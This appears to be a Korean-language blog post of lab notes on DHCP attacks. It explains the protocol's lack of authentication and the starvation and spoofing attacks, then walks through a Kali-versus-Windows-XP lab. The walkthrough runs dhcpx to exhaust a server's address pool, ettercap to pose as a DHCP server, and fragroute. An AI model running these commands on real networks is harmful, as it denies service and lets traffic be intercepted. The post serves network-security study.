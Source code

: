 ```yaml
---
title:  "DHCP Attack" 

categories:
  - DHCP
tags:
  - [DHCP]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## DHCP Attack

- DHCP Attack
  - 공격자가 DHCP 클라이언트 또는 서버로 위장하여 변조된 DHCP 메시지를 이용하여 수행하는 공격
  - 정상 DHCP서버를 마비(Dos) 시키거나 클라이언트에게 변조된 네트워크 정보를 전달하여 데이터의 전달 흐름을 공격자로 유도(Sniffing) 함

- DHCP 취약점
  - UDP를 이용 함 → 비 신뢰성, 비 연결성 - DHCP 자체의 인증 메커니즘이 없음  누구나 원할 때 클라이언트, 서버 역할을 할 수 있음 → 진위성을 확인할 수 없음  Client → 요청으로 전달한 XID, port의 일치 여부만 확인  Server → MAC주소로 Client 구분만 함

- DHCP Attack 분류
  - DHCP Starvation → DHCP Server의 Pool을 모두 소모시키는 공격 → Dos Attack
  기존의 DHCP 서버의 기능을 사용하지 못하게 하는것 : 가용성 공격
  - DHCP Spoofing → DHCP Client에게 조작된 네트워크 정보를 전달하는 공격 DHCP 서버를 사칭 : 무결성 공격

- 환경 구성

  - DHCP 서버 구성![화면 캡처 2022-10-04 180253](../../assets/img/화면 캡처 2022-10-04 180253.png)

    ![화면 캡처 2022-10-04 180406](../../assets/img/화면 캡처 2022-10-04 180406.png)

    ![화면 캡처 2022-10-04 180428](../../assets/img/화면 캡처 2022-10-04 180428.png)

    ![화면 캡처 2022-10-04 180506](../../assets/img/화면 캡처 2022-10-04 180506.png)

    ![화면 캡처 2022-10-04 180541](../../assets/img/화면 캡처 2022-10-04 180541.png)

    ![화면 캡처 2022-10-04 180952](../../assets/img/화면 캡처 2022-10-04 180952.png)

  - DHCP 클라이언트  테스트

    ```
    C:\Documents and Settings\ktest>ipconfig /all
    ```

    ![화면 캡처 2022-10-04 181054](../../assets/img/화면 캡처 2022-10-04 181054.png)

    > 주소 임대 해제

    ```
    C:\Documents and Settings\ktest>ipconfig /release
    ```

    ![화면 캡처 2022-10-04 181125](../../assets/img/화면 캡처 2022-10-04 181125.png)

    > 주소 재 임대

    ```
    C:\Documents and Settings\ktest>ipconfig /renew
    ```

    ![화면 캡처 2022-10-04 181148](../../assets/img/화면 캡처 2022-10-04 181148.png)

## DHCP startvation

- 구성도

![Untitled (1)](../../assets/img/Untitled (1)-1664881561157-16.png)

- 설정

  - kali

    ```
    ┌──(root㉿kali)-[~]
    └─# dhcpx 
    ```

    ![화면 캡처 2022-10-04 181352](../../assets/img/화면 캡처 2022-10-04 181352.png)

    ![화면 캡처 2022-10-04 181552](../../assets/img/화면 캡처 2022-10-04 181552.png)

    ```
    kali 2016] 
    └─# dhcpx -i eth0 -D 172.16.0.105
    ```

    ![화면 캡처 2022-10-04 190653](../../assets/img/화면 캡처 2022-10-04 190653.png)

  - xp

    > 주소 임대 실패

    ```
    C:\Documents and Settings\ktest>ipconfig /renew
    ```

    ![화면 캡처 2022-10-04 192654](../../assets/img/화면 캡처 2022-10-04 192654.png)

    ![화면 캡처 2022-10-04 193044](../../assets/img/화면 캡처 2022-10-04 193044.png)

    ![화면 캡처 2022-10-04 190707](../../assets/img/화면 캡처 2022-10-04 190707.png)

- DHCP Spoofing

  - ettercap 을 이용한 dhcp spoofing

    ```
    kali 2016] 
    └─# ettercap -i eth0 -T -M dhcp:172.16.0.80-90/255.255.255.0/203.248.252.2   -> 80~90번대로 받도록 한다
    ```

    ![Untitled](../../assets/img/Untitled-1664882805513-25.png)

    ```
    xp]
    C:\Documents and Settings\ktest>release
    C:\Documents and Settings\ktest>renew
    ```

    ![화면 캡처 2022-10-04 193746](../../assets/img/화면 캡처 2022-10-04 193746-1664883063272-32.png)

    ```
    C:\Documents and Settings\ktest>ipconfig /all
    ```

    ![화면 캡처 2022-10-04 193839](../../assets/img/화면 캡처 2022-10-04 193839.png)

    ```
    kali 2016]
    # fragroute -B1
    ```

    ![Untitled](../../assets/img/Untitled-1664883930848-36.png)

    ```
    xp]
    ping 8.8.8.8
    ```

    ![화면 캡처 2022-10-04 200044](../../assets/img/화면 캡처 2022-10-04 200044.png)



<br>

[맨 위로 이동하기](#){: .btn .btn--primary }{: .align-right}